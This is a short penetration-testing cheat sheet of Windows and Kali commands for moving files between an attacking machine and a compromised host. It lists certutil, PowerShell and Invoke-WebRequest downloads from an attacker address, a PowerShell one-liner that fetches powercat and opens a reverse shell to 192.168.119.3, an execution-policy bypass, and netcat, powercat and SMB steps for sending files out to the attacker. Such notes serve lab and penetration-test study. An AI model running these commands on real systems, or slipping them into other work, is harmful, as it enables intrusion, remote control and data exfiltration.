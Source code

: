 
#### CMD

`certutil -urlcache -split -f "http://ip/file" file` - download remote file from attacker

`powershell -FILE "file.ps1"` - execute file from cmd using powershell.

`powershell -ExecutionPolicy Bypass -File "C:\Scripts\MyScript.ps1"` - attempt to bypass execution policy and execute script.

`nc.exe -nvlp 7777 < file to sent to kali`

#### PowerShell

methods used to download powercat.ps1 from attacker:

```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
```

```
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("https://ip/powercat.ps1","C:\path\powercat.ps1")
```

`nc -lnvp 443 > notes.txt` - run on attacking machine

`powercat -c 192.168.1.3 -p 443 -i notes.txt` - run on target machine to transfer files

`iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe` - shorthand for Invoke-WebRequest, downloads file from remote server

### Kali

`smbclient //192.168.223.195/share -c 'put config.Library-ms'` - transfer file via smbclient from kali to windows share.

##### host smb server on kali

1. `impacket-smbserver <share> $(pwd) -smb2support -user kali -password kali` host smb server on kali machine - USE ROOT TERMINAL

2. `net use \\kali-ip\<share> /u:username password` - use share on windows machine - this allows the windows machine to interact with the share on the kali box

3. `copy file.txt \\kali-ip\share\file.txt` - send file to kali smb share from windows poweshell/cmd

##### host apache2 webserver

`sudo systemctl start apache2` - start apache webserver

`sudo cp /file/to/share /var/www/html/` - host the file


